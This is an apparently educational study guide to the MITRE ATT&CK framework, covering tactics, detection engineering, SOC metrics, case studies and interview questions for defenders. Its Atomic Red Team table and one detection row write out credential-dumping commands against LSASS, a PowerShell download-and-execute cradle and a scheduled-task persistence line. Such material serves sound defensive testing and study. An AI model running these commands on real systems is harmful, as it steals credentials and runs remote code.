


# MITRE ATT&CK Framework — Adversarial Tactics, Techniques & Common Knowledge

**Topic:** MITRE ATT&CK — Knowledge base of adversary behavior based on real-world observations  
**Standard:** MITRE ATT&CK v14+ (continuously updated; quarterly releases)  
**SDO:** The MITRE Corporation (federally funded R&D center; not-for-profit)  
**Audience:** SOC analysts, threat hunters, red teamers, detection engineers, CTI analysts, security architects  
**Prerequisites:** Networking fundamentals, operating system internals, incident response basics, understanding of attacker motivations

---

## Chapter 1 — Historical Context & Origin Story

### 1.1 Timeline

| Year | Event | Significance |
|------|-------|-------------|
| 2013 | ATT&CK project initiated at MITRE | Internal research to document post-compromise adversary behavior against Windows enterprise networks |
| 2015 | **ATT&CK for Enterprise** published | First public release; Windows-focused; documented APT behaviors |
| 2017 | PRE-ATT&CK released | Reconnaissance and pre-exploit techniques (later merged into Enterprise) |
| 2018 | ATT&CK for Mobile released | iOS and Android adversary techniques |
| 2019 | ATT&CK for ICS released | Industrial Control Systems techniques |
| 2019 | Sub-techniques introduced | Added granularity (techniques → sub-techniques) |
| 2020 | PRE-ATT&CK merged into Enterprise | Reconnaissance and Resource Development tactics added to Enterprise |
| 2020 | ATT&CK v8 | Cloud platform matrices (AWS, Azure, GCP, SaaS, Office 365) |
| 2021 | ATT&CK v9-v10 | Data sources and detections formalized; containers added |
| 2022 | ATT&CK v11-v12 | Campaign objects; detector coverage tracking |
| 2023 | ATT&CK v13-v14 | Enhanced data sources; structured detections; 201+ techniques |
| 2024 | ATT&CK v15+ | Continuous evolution; AI/ML threat techniques beginning |
| 2013+ | **D3FEND** published | Defensive technique ontology (complement to ATT&CK) |
| 2018+ | **CAPEC** maintained | Common Attack Pattern Enumeration and Classification |
| 2023+ | **ATT&CK Workbench** | Community contribution platform for ATT&CK |

### 1.2 ATT&CK Ecosystem

| Component | Purpose | Relationship |
|-----------|---------|-------------|
| ATT&CK Enterprise | Adversary TTPs for enterprise IT (Windows, Linux, macOS, Cloud, Network, Containers) | Primary matrix |
| ATT&CK Mobile | Adversary TTPs for mobile devices (Android, iOS) | Separate matrix |
| ATT&CK ICS | Adversary TTPs for industrial control systems | Separate matrix |
| D3FEND | Defensive countermeasures knowledge graph | Defensive complement |
| CAPEC | Attack pattern enumeration (higher level than ATT&CK) | Broader attack taxonomy |
| STIX/TAXII | Machine-readable threat intelligence format/transport | ATT&CK content in STIX 2.1 |
| Navigator | Visualization and annotation tool for ATT&CK matrices | Usage/coverage tool |
| Workbench | ATT&CK contribution and customization platform | Community development |

---

## Chapter 2 — Standard Architecture & Structure

### 2.1 ATT&CK Enterprise Matrix — 14 Tactics



### 2.2 Tactic Details

| # | Tactic | ID | Description | Technique Count (approx.) |
|---|--------|----|-------------|--------------------------|
| 1 | Reconnaissance | TA0043 | Gathering information to plan attack | 10 techniques |
| 2 | Resource Development | TA0042 | Establishing resources to support operations | 8 techniques |
| 3 | Initial Access | TA0001 | Gaining initial foothold in target network | 10 techniques |
| 4 | Execution | TA0002 | Running adversary-controlled code | 14 techniques |
| 5 | Persistence | TA0003 | Maintaining foothold across restarts/changes | 20 techniques |
| 6 | Privilege Escalation | TA0004 | Gaining higher-level permissions | 14 techniques |
| 7 | Defense Evasion | TA0005 | Avoiding detection | 42 techniques |
| 8 | Credential Access | TA0006 | Stealing credentials | 17 techniques |
| 9 | Discovery | TA0007 | Understanding target environment | 31 techniques |
| 10 | Lateral Movement | TA0008 | Moving through environment | 9 techniques |
| 11 | Collection | TA0009 | Gathering data of interest | 17 techniques |
| 12 | Command and Control | TA0011 | Communicating with compromised systems | 16 techniques |
| 13 | Exfiltration | TA0010 | Stealing data from target | 9 techniques |
| 14 | Impact | TA0040 | Disrupting availability/integrity | 14 techniques |

### 2.3 ATT&CK Object Model

| Object | Description | Example |
|--------|-------------|---------|
| **Tactic** | WHY — adversary's tactical goal | Credential Access (TA0006) |
| **Technique** | HOW — method to achieve tactical goal | OS Credential Dumping (T1003) |
| **Sub-technique** | HOW (specific) — variant of a technique | LSASS Memory (T1003.001) |
| **Procedure** | Implementation — specific instance by a group | APT28 uses Mimikatz to dump LSASS |
| **Group** | WHO — tracked threat actor | APT28 (Fancy Bear) |
| **Software** | WHAT tool — malware or legitimate tool used | Mimikatz (S0002) |
| **Campaign** | WHEN — specific intrusion activity set | SolarWinds (C0024) |
| **Mitigation** | Defense — security measure that prevents technique | Credential Access Protection (M1043) |
| **Data Source** | WHERE to look — data needed for detection | Process: Process Creation |
| **Detection** | HOW to find — specific detection logic | Monitor for lsass.exe access from unusual processes |

---

## Chapter 3 — Technical Deep Dive

### 3.1 Top Techniques by Frequency (Real-World Usage)

| Technique | ID | Tactic | Why Common | Detection Difficulty |
|-----------|-----|--------|-----------|---------------------|
| Phishing (Spearphishing Attachment) | T1566.001 | Initial Access | Humans are weakest link; bypass perimeter controls | Medium |
| Command and Scripting Interpreter (PowerShell) | T1059.001 | Execution | Built-in; powerful; living-off-the-land | Medium-Hard |
| Valid Accounts | T1078 | Persistence, Privilege Esc, Defense Evasion, Initial Access | Legitimate credentials = no malware needed | Hard |
| OS Credential Dumping (LSASS) | T1003.001 | Credential Access | Enables lateral movement; Mimikatz ubiquitous | Medium |
| Exploitation of Public-Facing Application | T1190 | Initial Access | Unpatched web apps; rapid exploitation of CVEs | Medium |
| Ingress Tool Transfer | T1105 | Command & Control | Download additional tools post-compromise | Medium |
| Scheduled Task/Job | T1053 | Execution, Persistence, Privilege Escalation | Built-in; persistence + execution | Medium |
| Remote Services (RDP, SSH, SMB) | T1021 | Lateral Movement | Built-in protocols; legitimate traffic blending | Hard |
| Obfuscated Files or Information | T1027 | Defense Evasion | Evades signature detection; automated obfuscation tools | Hard |
| Impair Defenses (Disable Security Tools) | T1562.001 | Defense Evasion | Must disable EDR/AV to operate freely | Medium |
| Data Encrypted for Impact (Ransomware) | T1486 | Impact | Monetization; widespread ransomware ecosystem | Low (detect) Hard (prevent) |

### 3.2 Kill Chain vs. ATT&CK

| Lockheed Martin Kill Chain | ATT&CK Tactics | Key Difference |
|---------------------------|----------------|----------------|
| Reconnaissance | Reconnaissance (TA0043) | ATT&CK adds Resource Development |
| Weaponization | Resource Development (TA0042) | ATT&CK separates from delivery |
| Delivery | Initial Access (TA0001) | ATT&CK more granular |
| Exploitation | Execution (TA0002) | ATT&CK separates exploitation types |
| Installation | Persistence (TA0003) | ATT&CK adds Privilege Escalation |
| Command & Control | Command and Control (TA0011) | Similar |
| Actions on Objectives | Collection + Exfiltration + Impact | ATT&CK expands "objectives" into 6 separate tactics |

**Key insight:** ATT&CK is NOT linear — adversaries can use any combination of tactics in any order; may skip tactics entirely; may repeat tactics. Kill Chain assumes linear progression.

### 3.3 ATT&CK Data Sources

| Data Source | Components | Techniques Covered |
|-------------|-----------|-------------------|
| Process | Process Creation, Process Termination, OS API Execution | 50+ techniques (most important data source) |
| Command | Command Execution | 30+ techniques |
| File | File Creation, File Modification, File Deletion, File Access | 40+ techniques |
| Network Traffic | Network Connection Creation, Network Traffic Content, Network Traffic Flow | 35+ techniques |
| Windows Registry | Windows Registry Key Creation, Key Modification, Key Deletion | 20+ techniques |
| User Account | User Account Authentication, User Account Creation, User Account Modification | 15+ techniques |
| Logon Session | Logon Session Creation, Logon Session Metadata | 10+ techniques |
| Module | Module Load | 15+ techniques |
| Scheduled Job | Scheduled Job Creation, Modification | 5+ techniques |

---

## Chapter 4 — Implementation Guide

### 4.1 ATT&CK Implementation Maturity Model

```mermaid
graph TB
    subgraph "Level 1: Awareness (Month 1-2)"
        L1[• Understand ATT&CK structure<br/>• Train SOC team on framework<br/>• Map existing alerts to ATT&CK<br/>• Install ATT&CK Navigator<br/>• Identify top threat groups relevant to org]
    end
    
    subgraph "Level 2: Detection Mapping (Month 2-4)"
        L2[• Assess current detection coverage<br/>• Map SIEM rules to ATT&CK techniques<br/>• Identify detection gaps<br/>• Prioritize gap closure by threat intelligence<br/>• Create coverage heatmap (Navigator)]
    end
    
    subgraph "Level 3: Detection Engineering (Month 4-8)"
        L3[• Write detections for priority gaps<br/>• Validate detections against techniques<br/>• Build detection-as-code pipeline<br/>• Implement Sigma rules mapped to ATT&CK<br/>• Test with atomic red team exercises]
    end
    
    subgraph "Level 4: Threat Hunting (Month 8-12)"
        L4[• Hypothesis-driven hunting using ATT&CK<br/>• Hunt for techniques without alerts<br/>• Develop hunting playbooks per tactic<br/>• Track hunting coverage and findings<br/>• Feed hunting results back to detection]
    end
    
    subgraph "Level 5: Purple Teaming (Month 12+)"
        L5[• Red team exercises mapped to ATT&CK<br/>• Adversary emulation (specific groups)<br/>• Detection validation at scale<br/>• Continuous improvement cycle<br/>• ATT&CK evaluations participation/tracking]
    end
    
    L1 --> L2 --> L3 --> L4 --> L5
```

### 4.2 ATT&CK Navigator Usage

| Use Case | How to Use Navigator | Output |
|----------|---------------------|--------|
| Detection coverage | Color-code each technique based on detection maturity (red=none, yellow=partial, green=detected) | Coverage heatmap showing blind spots |
| Threat group prioritization | Layer showing techniques used by top threat groups targeting your sector | Priority defense list |
| Red team planning | Select techniques for adversary emulation plan; assign to test phases | Emulation plan |
| Gap analysis | Overlay detection coverage with threat intelligence → see where threats exist but no detection | Prioritized detection backlog |
| SOC metrics | Track coverage improvement over time (quarterly snapshots) | Maturity trending |
| Vendor evaluation | Map vendor's detection claims to ATT&CK → validate coverage claims | Vendor comparison |

### 4.3 Detection Engineering per Technique

**Example: T1003.001 — OS Credential Dumping: LSASS Memory**

| Aspect | Detail |
|--------|--------|
| Technique | Adversary attempts to access credential material stored in LSASS process memory |
| Data Sources | Process: Process Access; Process: Process Creation; Command: Command Execution |
| Detection 1 | Monitor for processes accessing lsass.exe with `PROCESS_VM_READ` access right from unexpected source processes |
| Detection 2 | Sysmon Event ID 10 (ProcessAccess) where TargetImage = `*\lsass.exe` AND SourceImage NOT IN (whitelist) |
| Detection 3 | Monitor for comsvcs.dll loaded by processes (indicates MiniDump technique): `rundll32.exe comsvcs.dll MiniDump` |
| Detection 4 | Windows Defender Credential Guard alerts; LSA Protection violations |
| Prevention | Enable Credential Guard (Windows 10+); enable LSA Protection (RunAsPPL); restrict debug privilege (SeDebugPrivilege) |
| Sigma Rule | `title: LSASS Access From Non-System Account` → EventID: 10, TargetImage: `*\lsass.exe`, exclude known system processes |
| False Positives | AV/EDR legitimately scanning LSASS; crash dump utilities; WerFault.exe |
| ATT&CK Mitigations | M1043 (Credential Access Protection); M1025 (Privileged Process Integrity); M1027 (Password Policies) |

### 4.4 Atomic Red Team Testing

| Atomic Test ID | Technique | Command | Platform |
|---------------|-----------|---------|----------|
| T1003.001-1 | Dump LSASS with Mimikatz | `mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"` | Windows |
| T1003.001-2 | Dump LSASS with procdump | `procdump.exe -ma lsass.exe lsass.dmp` | Windows |
| T1003.001-3 | Dump LSASS with comsvcs.dll | `rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <PID> dump.bin full` | Windows |
| T1059.001-1 | PowerShell download cradle | `IEX (New-Object Net.WebClient).DownloadString('http://...')` | Windows |
| T1053.005-1 | Scheduled task persistence | `schtasks /create /tn "Updater" /tr "C:\mal.exe" /sc daily` | Windows |
| T1078.004-1 | Cloud account access | AWS CLI with stolen access key | Cloud |

---

## Chapter 5 — Assessment & Evaluation

### 5.1 MITRE ATT&CK Evaluations

| Evaluation Round | Focus | Notable Results |
|-----------------|-------|-----------------|
| Round 1 (2018) | APT3 emulation | Baseline EDR vendor assessment (7 vendors) |
| Round 2 (2019) | APT29 emulation | 21 vendors; visibility vs. detection distinction introduced |
| Round 3 (2020) | Carbanak + FIN7 | 29 vendors; Linux added; detection categories refined |
| Round 4 (2021) | Wizard Spider + Sandworm | 30 vendors; macOS/Linux; protection (blocking) evaluated |
| Round 5 (2022) | Turla (FSB) | 30 vendors; most complex evaluation; multiple OS |
| Round 6 (2023) | menuPass + CL0P | Managed services evaluation added |
| Round 7 (2024) | Multiple APTs | Continued evolution |

### 5.2 Detection Coverage Assessment Method

| Step | Activity | Tool |
|------|----------|------|
| 1 | Enumerate all SIEM detection rules | SIEM export; Sigma rules inventory |
| 2 | Map each rule to ATT&CK technique(s) | Manual mapping or automated with DeTT&CT |
| 3 | Score coverage per technique: 0=None, 1=Minimal, 2=Partial, 3=Effective, 4=Comprehensive | Scoring rubric |
| 4 | Visualize in ATT&CK Navigator | Color-coded heatmap (layer file) |
| 5 | Overlay threat intelligence (which techniques do relevant threat groups use?) | CTI integration |
| 6 | Identify gaps: high-threat techniques with low/no detection coverage | Priority backlog |
| 7 | Build detection engineering sprint plan | Quarterly detection improvement |
| 8 | Validate with purple team exercises | Atomic Red Team; manual testing |
| 9 | Re-assess coverage quarterly | Trending metrics |

### 5.3 ATT&CK-Based SOC Metrics

| Metric | Formula | Target |
|--------|---------|--------|
| Technique Coverage | Techniques with detection ÷ Total relevant techniques × 100 | >70% for top threat groups |
| Detection Confidence | Techniques with validated (tested) detection ÷ Techniques with any detection | >80% validated |
| Mean Time to Detect (per technique) | Time from technique execution to alert | <15 min for high-priority |
| False Positive Rate | False positive alerts ÷ Total alerts (per technique) | <10% per detection rule |
| Detection Gap Closure Rate | New detections added per quarter | 10-20 techniques/quarter |
| Hunting Coverage | Techniques hunted per quarter ÷ Total techniques in scope | >20% per quarter |

---

## Chapter 6 — Domain-Specific Matrices

### 6.1 ATT&CK for ICS (Industrial Control Systems)

| Tactic | ID | Key Techniques | Target |
|--------|----|---------------|--------|
| Initial Access | TA0108 | Spearphishing, Internet-facing device exploit, Engineering workstation compromise | IT→OT pivot |
| Execution | TA0104 | Change operating mode, Modify controller tasking, Native API | PLC/HMI |
| Persistence | TA0110 | Module firmware, Project file infection, System firmware | Controller-level persistence |
| Evasion | TA0103 | Rootkit on controller, Indicator removal on host | Hide OT manipulation |
| Discovery | TA0102 | Network sniffing, Remote system discovery | Identify OT assets |
| Lateral Movement | TA0109 | Default credentials, Program download, Remote services | Move through OT network |
| Collection | TA0100 | Point & tag identification, Program upload, Screen capture | Gather process info |
| Command & Control | TA0101 | Standard application layer protocol, Connection proxy | Maintain OT access |
| Inhibit Response Function | TA0107 | Activate firmware update mode, Block command message, Block reporting message | Prevent safety response |
| Impair Process Control | TA0106 | Brute force I/O, Modify parameter, Unauthorized command message | Disrupt physical process |
| Impact | TA0105 | Damage to property, Denial of control, Loss of availability, Loss of safety, Manipulation of control | Physical consequence |

### 6.2 ATT&CK for Cloud

| Technique | ID | Cloud Platform | Description |
|-----------|-----|---------------|-------------|
| Cloud Accounts | T1078.004 | All | Using compromised cloud credentials |
| Cloud Service Discovery | T1526 | All | Enumerate cloud services and resources |
| Cloud Service Dashboard | T1538 | All | Access cloud management consoles |
| Cloud Storage Object Discovery | T1619 | AWS/Azure/GCP | Enumerate S3 buckets, blobs, GCS |
| Steal Application Access Token | T1528 | All | OAuth token theft for API access |
| Transfer Data to Cloud Account | T1537 | All | Exfiltrate to adversary-controlled cloud |
| Unused/Unsupported Cloud Regions | T1535 | AWS/Azure/GCP | Deploy resources in unmonitored regions |
| Cloud Infrastructure Discovery | T1580 | All | Enumerate virtual networks, security groups |
| Modify Cloud Compute Infrastructure | T1578 | All | Create snapshots; modify VMs |
| Serverless Execution | T1648 | AWS Lambda/Azure Functions | Execute code via serverless |

---

## Chapter 7 — Comparison

### 7.1 ATT&CK vs. Kill Chain vs. Diamond Model

| Dimension | MITRE ATT&CK | Lockheed Kill Chain | Diamond Model |
|-----------|--------------|--------------------|--------------| 
| Type | Knowledge base (techniques catalog) | Linear attack model | Analytical model (intrusion analysis) |
| Structure | 14 tactics × 200+ techniques × 400+ sub-techniques | 7 sequential phases | 4 features: adversary, infrastructure, capability, victim |
| Granularity | Very high (sub-technique level) | Low (7 phases) | Medium (event-centric) |
| Linearity | **Non-linear** (adversary uses any tactic, any order) | **Linear** (left to right progression) | **Event-centric** (each action is independent) |
| Use case | Detection engineering, threat hunting, gap analysis, CTI | High-level attack understanding; board communication | Intrusion analysis; attribution; threat intel production |
| Actionability | Very high (specific detections per technique) | Low (too high-level for detection rules) | Medium (analytical, not prescriptive) |
| Maintenance | Quarterly updates; community-driven | Static (no updates since original) | Framework — no catalog |
| Machine-readable | Yes (STIX 2.1 format) | No | No (conceptual model) |

### 7.2 ATT&CK vs. D3FEND

| Dimension | ATT&CK | D3FEND |
|-----------|--------|--------|
| Orientation | **Offensive** (what adversaries do) | **Defensive** (what defenders do) |
| Content | Tactics, techniques, sub-techniques | Defensive techniques, digital artifacts |
| Structure | Tactic → Technique → Sub-technique | Tactic → Technique → Artifact |
| Purpose | Describe adversary behavior | Describe defensive countermeasures |
| Relationship | "If adversary does X..." | "...defender can do Y to counter" |
| Example | T1003.001 (LSASS Memory dump) | D3-DENCR (Disk Encryption), D3-APTS (Application Process Start) |
| Use together | Map detections FROM ATT&CK techniques TO D3FEND countermeasures | Validate defense coverage against ATT&CK threats |

---

## Chapter 8 — Mermaid Architecture Diagrams

### 8.1 ATT&CK Object Relationships



### 8.2 ATT&CK-Based SOC Workflow

```mermaid
graph TB
    subgraph "Threat Intelligence"
        CTI[CTI Team<br/>• Track threat groups targeting sector<br/>• Map TTPs to ATT&CK<br/>• Priority Intelligence Requirements<br/>• Feed to detection engineering]
    end
    
    subgraph "Detection Engineering"
        DE[Detection Engineers<br/>• Coverage gap analysis (Navigator)<br/>• Write detection rules (Sigma/SIEM)<br/>• Map to ATT&CK techniques<br/>• Validate with Atomic Red Team<br/>• Detection-as-code CI/CD]
    end
    
    subgraph "SOC Operations"
        SOC[SOC Analysts<br/>• Triage alerts (ATT&CK-tagged)<br/>• Investigate with technique context<br/>• Understand adversary intent (tactic)<br/>• Look for related techniques<br/>• Escalate based on kill chain position]
    end
    
    subgraph "Threat Hunting"
        HUNT[Threat Hunters<br/>• Hypothesis from ATT&CK techniques<br/>• Hunt in unalerted areas<br/>• Validate detection coverage<br/>• Find unknown threats<br/>• Create new detections from findings]
    end
    
    subgraph "Purple Team"
        PT[Purple Team<br/>• Adversary emulation plans<br/>• Execute technique-by-technique<br/>• Validate detection fires<br/>• Measure coverage improvement<br/>• ATT&CK Evaluations alignment]
    end
    
    CTI -->|"Priority techniques"| DE
    CTI -->|"Threat context"| SOC
    CTI -->|"Hunting hypotheses"| HUNT
    DE -->|"New detections"| SOC
    HUNT -->|"Detection gaps found"| DE
    PT -->|"Validated/invalidated detections"| DE
    SOC -->|"FP/missed detections feedback"| DE
```

---

## Chapter 9 — Case Studies

### 9.1 SOC Detection Coverage Improvement Using ATT&CK

| Aspect | Detail |
|--------|--------|
| Organization | Financial services company; 5,000 employees; SOC team of 8; Splunk SIEM deployed |
| Situation | Multiple incidents missed; SIEM had 200+ rules but mostly compliance-oriented; no systematic coverage assessment; detection blind spots unknown |
| Approach | (1) Mapped all 200 existing SIEM rules to ATT&CK techniques. (2) Identified relevant threat groups: FIN7, FIN12, Lazarus Group. (3) Listed all techniques used by these groups (combined ~80 unique techniques). (4) Created Navigator heatmap: existing coverage vs. threat techniques. (5) Found: only 28% coverage of relevant techniques. (6) Prioritized top 20 uncovered techniques by threat frequency and business impact. (7) 12-week detection engineering sprint: wrote Sigma rules for priority gaps. |
| Key detections added | (1) T1059.001 (PowerShell): Encoded command detection; unusual PowerShell downloads. (2) T1021.001 (RDP): Internal RDP from unexpected sources. (3) T1003.001 (LSASS): Sysmon ProcessAccess monitoring. (4) T1070.001 (Clear Windows Event Logs): Event log cleared detection. (5) T1048 (Exfiltration over alt protocol): DNS tunneling; large HTTPS POST detection. (6) T1078 (Valid Accounts): Impossible travel; service account interactive logon. |
| Validation | Atomic Red Team exercises for each new detection; purple team validated 85% detection rate |
| Results | Coverage of relevant threat group techniques: 28% → 72% in 12 weeks. Mean time to detect: 4.2 days → 6 hours. False positive rate: maintained below 8%. Two real incidents detected by new rules within first month (previously would have been missed). |
| Cost | $150K (6 months detection engineer contract $100K; Atomic Red Team tooling $10K; Sysmon deployment $20K; training $20K) |
| Lesson | **Without ATT&CK mapping, organizations don't know what they can't detect. Systematic coverage assessment reveals critical blind spots.** |

### 9.2 Adversary Emulation — APT29 Simulation

| Aspect | Detail |
|--------|--------|
| Organization | Government contractor; handles CUI; required CMMC L2; red team engagement |
| Objective | Emulate APT29 (Cozy Bear/SVR) TTPs to test detection and response capabilities |
| ATT&CK techniques emulated | Initial Access: T1566.001 (Spearphishing with attachment). Execution: T1059.001 (PowerShell), T1047 (WMI). Persistence: T1547.001 (Registry Run Keys), T1053.005 (Scheduled Tasks). Privilege Escalation: T1134 (Access Token Manipulation). Defense Evasion: T1027 (Obfuscated Files), T1070.004 (File Deletion). Credential Access: T1003.001 (LSASS), T1558.003 (Kerberoasting). Lateral Movement: T1021.002 (SMB/Windows Admin Shares). Collection: T1560.001 (Archive via Utility). Exfiltration: T1048.002 (Exfil over Asymmetric Encrypted Non-C2 Protocol). |
| Execution | 5-day red team engagement; techniques executed individually and documented; SOC operated in "purple" mode (notified after each technique was executed to verify detection) |
| Results | 14 techniques executed. SOC detected: 8/14 (57%). Missed: T1134 (token manipulation — no detection), T1558.003 (Kerberoasting — no Kerberos monitoring), T1047 (WMI — rules existed but too many false positives, disabled), T1027 (obfuscated PowerShell — evasion successful), T1021.002 (SMB lateral — no east-west traffic analysis), T1048.002 (encrypted exfil — no DLP/DPI on HTTPS). |
| Post-engagement | 6 new detections built; 2 disabled rules tuned and re-enabled; network monitoring deployed for east-west traffic; Kerberos audit logging enabled. Re-test 3 months later: detected 12/14 (86%). |

---

## Chapter 10 — Future Evolution & Industry Trends

| Trend | Timeline | Impact |
|-------|----------|--------|
| AI/ML attack techniques | 2024-2026 | New techniques for adversarial ML, prompt injection, model poisoning added to ATT&CK |
| AI-powered detection | Now | ATT&CK-mapped detections generated and optimized by AI/ML |
| Cloud-native expansion | Now | Deeper cloud technique coverage (Kubernetes, serverless, IaC attacks) |
| Identity-centric techniques | Now-2025 | Expansion of credential access and identity manipulation techniques |
| ATT&CK for SaaS | 2024-2025 | Dedicated SaaS application techniques (M365, Google Workspace, Salesforce abuse) |
| Automated emulation | Now | Breach and attack simulation (BAS) tools fully ATT&CK-mapped; continuous testing |
| Detection-as-Code standardization | Now | Sigma, YARA-L, KQL standardized with ATT&CK metadata |
| Supply chain techniques expansion | 2024-2025 | More granular sub-techniques for supply chain compromise |
| ATT&CK Workbench community contributions | Now | Community-driven technique additions; faster updates |
| Defensive ATT&CK (D3FEND) maturity | 2024-2026 | D3FEND becoming standard complement; vendor mapping |
| Regulatory integration | 2024-2026 | CISA, NIS2, DORA referencing ATT&CK for threat-informed defense |

---

## Chapter 11 — Interview Questions & Career Guide

### Tier 1: Entry-Level (SOC Analyst)

**Q1:** Explain the difference between a Tactic, Technique, and Sub-technique in ATT&CK with an example.  
**A:** **Tactic** = WHY (adversary's goal). Example: *Credential Access (TA0006)* — the adversary wants to steal credentials to access more systems. **Technique** = HOW (general method). Example: *OS Credential Dumping (T1003)* — the adversary extracts credentials from the operating system. **Sub-technique** = HOW specifically (variant of the technique). Example: *LSASS Memory (T1003.001)* — the adversary specifically targets the LSASS process memory to extract plaintext passwords and hashes. The hierarchy: Tactic (goal) → Technique (method) → Sub-technique (specific implementation). A single technique can exist under multiple tactics (e.g., Valid Accounts T1078 appears under Initial Access, Persistence, Privilege Escalation, and Defense Evasion because compromised accounts serve multiple goals).

**Q2:** An alert fires for "PowerShell encoded command execution." What ATT&CK technique does this map to, and what other techniques should you investigate as part of the same intrusion?  
**A:** This maps to **T1059.001 (Command and Scripting Interpreter: PowerShell)** under Execution tactic, and potentially **T1027 (Obfuscated Files or Information)** under Defense Evasion (because encoding is a form of obfuscation). As an analyst, I'd investigate related techniques that commonly co-occur: (1) What preceded this? — Check for T1566 (Phishing) or T1190 (Exploit Public-Facing App) as initial access. (2) What is PowerShell doing? — Check for T1105 (Ingress Tool Transfer — downloading payloads), T1003 (Credential Dumping), T1082/T1083 (System/File Discovery). (3) What follows? — T1053 (Scheduled Task for persistence), T1021 (Lateral Movement via RDP/SMB), T1048 (Exfiltration). The key insight: a single technique rarely occurs in isolation — look for the full attack chain.

### Tier 2: Mid-Level (Detection Engineer / Threat Hunter)

**Q3:** How would you build an ATT&CK-based detection coverage assessment for your organization? Walk through the methodology and how you'd prioritize gaps.  
**A:**

**Step 1: Inventory existing detections.** Export all SIEM rules, EDR policies, and alert configurations. For each rule, determine which ATT&CK technique(s) it would detect. Score each mapping: 0=No detection; 1=Log exists but no alert; 2=Alert exists, untested; 3=Alert exists, validated; 4=Alert exists, validated, tuned, low FP rate.

**Step 2: Identify relevant threat landscape.** Using CTI, identify top 3-5 threat groups targeting our sector (e.g., for financial: FIN7, FIN12, Lazarus). Pull their technique usage from ATT&CK Navigator group layers. Union of their techniques = our priority list (~60-100 techniques typically).

**Step 3: Create coverage heatmap.** In ATT&CK Navigator, create two layers: (a) Detection coverage (color by score). (b) Threat relevance (color by frequency/severity). Overlay reveals: "high threat + no detection" = critical gaps.

**Step 4: Prioritize gaps.** Rank by: (a) Threat frequency (how often do adversaries use this?). (b) Impact if undetected (credential dumping = devastating vs. discovery = less urgent). (c) Detectability (some techniques are inherently hard; start with detectable ones). (d) Data availability (do we even have the logs?).

**Step 5: Execute detection sprints.** 2-week sprints; each sprint delivers 3-5 new detections. Each detection: write Sigma rule → implement in SIEM → validate with Atomic Red Team → tune FPs → document.

**Step 6: Continuous reassessment.** Quarterly re-assessment. Track metrics: coverage %, detection confidence, MTTD per technique.

### Tier 3: Senior (CTI Lead / Security Architect)

**Q4:** How would you architect a threat-informed defense program using ATT&CK as the backbone, integrating CTI, detection engineering, red team, and executive reporting?  
**A:** [Full answer covers: (1) CTI team produces Priority Intelligence Requirements (PIRs) tied to ATT&CK groups/techniques. (2) CTI→Detection pipeline: every new threat report mapped to techniques → detection gap assessment → engineering sprint. (3) Red team uses adversary emulation plans (MITRE CTID format) targeting priority techniques; validates detection coverage. (4) SOC tagging: every alert/incident tagged with ATT&CK technique(s) → generates operational data on which techniques hit us most. (5) Metrics for executives: "We can detect X% of techniques used by our top adversaries" (board-friendly metric). (6) Year-over-year trending: detection coverage improvement, MTTD reduction, technique-specific response. (7) Tool evaluation: use ATT&CK Evaluations data to select/validate EDR vendors. (8) Architecture decisions: security architecture designed to provide data sources needed for priority technique detection.]

---

## Chapter 12 — Cheat Sheet & Quick Reference

### ATT&CK Enterprise — Key Numbers

```
Tactics:           14 (Reconnaissance → Impact)
Techniques:        ~201+ (growing quarterly)
Sub-techniques:    ~400+ (increasing)
Groups:            ~140+ tracked threat actors
Software:          ~700+ (malware + tools)
Mitigations:       ~43 defined
Data Sources:      ~40 defined
```

### 14 Tactics (In Order)

```
 1. Reconnaissance (TA0043)      8. Credential Access (TA0006)
 2. Resource Development (TA0042) 9. Discovery (TA0007)
 3. Initial Access (TA0001)      10. Lateral Movement (TA0008)
 4. Execution (TA0002)           11. Collection (TA0009)
 5. Persistence (TA0003)         12. Command & Control (TA0011)
 6. Privilege Escalation (TA0004) 13. Exfiltration (TA0010)
 7. Defense Evasion (TA0005)     14. Impact (TA0040)
```

### Top 10 Most-Used Techniques (by APT Groups)

```
1. T1059    Command/Scripting Interpreter (PowerShell, Bash, Python)
2. T1078    Valid Accounts
3. T1566    Phishing
4. T1105    Ingress Tool Transfer
5. T1027    Obfuscated Files or Information
6. T1003    OS Credential Dumping
7. T1053    Scheduled Task/Job
8. T1021    Remote Services
9. T1071    Application Layer Protocol (C2)
10. T1190   Exploit Public-Facing Application
```

### ATT&CK Tools

```
Navigator:          https://mitre-attack.github.io/attack-navigator/
Workbench:          Customize/contribute to ATT&CK
Atomic Red Team:    Test technique execution (Red Canary)
Sigma Rules:        Detection-as-code mapped to ATT&CK
DeTT&CT:            Detection coverage mapping tool
CALDERA:            Automated adversary emulation (MITRE)
```

### Detection Priorities (Start Here)

```
HIGH PRIORITY (Detect First):
• T1003.001  LSASS Memory (credential theft)
• T1059.001  PowerShell (execution)
• T1078      Valid Accounts (compromised creds)
• T1566.001  Spearphishing Attachment (initial access)
• T1486      Data Encrypted for Impact (ransomware)
• T1021.001  Remote Desktop Protocol (lateral)
• T1053.005  Scheduled Task (persistence)

KEY DATA SOURCES:
